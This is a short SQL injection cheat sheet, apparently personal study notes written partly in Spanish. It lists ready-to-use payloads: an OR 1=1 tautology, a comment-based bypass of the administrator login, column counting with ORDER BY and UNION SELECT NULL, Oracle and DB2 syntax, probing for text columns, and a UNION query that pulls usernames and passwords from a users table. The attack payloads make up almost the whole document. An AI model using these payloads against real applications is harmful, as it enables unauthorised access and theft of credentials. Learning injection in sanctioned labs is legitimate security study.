 # SQL INJECTION
## Retrieving hidden data
```
'OR 1=1--
'OR+1=1--
```
## Subverting application logic
```
SELECT * FROM users WHERE username = 'administrator'--'
-- Comment line
```
## Retrieving data from other database tables (UNION)

### Get number of columns

**Metodo 1**
```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```
**Metodo 2**
```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```
### Database-specific syntax
```
ORACLE
UNION SELECT 'Other Value', 2 FROM DUAL--

DB2
UNION SELECT 'Other Value', 2 FROM SYSIBM.SYSDUMMY1--

Para las demás:
UNION SELECT NULL, NULL--
```
### Finding columns with a useful data type
```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

### Retrieving data from other tables
```
Requisitos
-Conocer el nombre de la tabla
-Conocer el nombre de las columnas
Ejemplo:
'UNION SELECT username, password FROM users--
```
